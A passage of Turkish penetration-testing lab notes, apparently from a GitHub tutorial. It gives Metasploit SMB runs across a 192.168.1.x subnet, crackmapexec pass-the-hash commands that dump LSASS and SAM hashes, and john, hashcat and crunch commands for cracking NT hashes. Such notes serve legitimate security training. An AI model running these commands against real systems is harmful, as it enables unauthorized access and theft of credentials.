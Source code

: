     - `run`
    - `set RHOSTS 192.168.1.200` başka makinede deniyoruz
    - `set STOP_ON_SUCCESS false`
    - `run`
    - ![resim](https://user-images.githubusercontent.com/63648396/147686443-9c47c29b-eada-436a-b65d-e7215f9b3907.png)
    - `set RHOSTS 192.168.1.0/24` yapıp hepsini deneyebiliriz
      -  `db_nmap -p 445 192.168.1.0/25 --open` der bunları kaydederiz
      -  `services -p 445 -R` 445'i açık olan hepsini RHOSTS'a alırız
      -  ama bu tür saldırılarda karşı hesapları kilitlememek çok önemli

## crackmapexec ##
  - `crackmapexec smb 192.168.1.200 -u Administrator -H <hash>` hash bu ip üzerinde herhangi bir şekilde administrator kapısını bize açıyor mu?
  - `crackmapexec smb 192.168.1.200 -u Administrator -H <hash> -lsass`
  - `crackmapexec smb 192.168.1.200 -u Administrator -H <hash> --sam`
  - ![resim](https://user-images.githubusercontent.com/63648396/147686649-2650d549-3f9a-4453-b1a5-b03729f79fc0.png)
  - - `crackmapexec smb 192.168.1.0/24 -d . -u Administrator -H <hash> --sam` -d . çok önemli

# Hashcat & Crunch #
  - hashlist2 dosyamız vardı
  - `john --format=NT hashlist2`
  - `john --format=NT hashlist2 --wordlist=passlist`
  - `hashcat -a 3 -m 1000 hashlist2`
  
  * crunch bize wordlist oluşturmada yardımcı olur 
  * `crunch 8 8 0123456789 -t Ankara@@` sayılardan oluşan 8'e 8'lik Ankara@@ yazan ve @ yerlerine sayı gelecek şekilde wordlist oluştur.

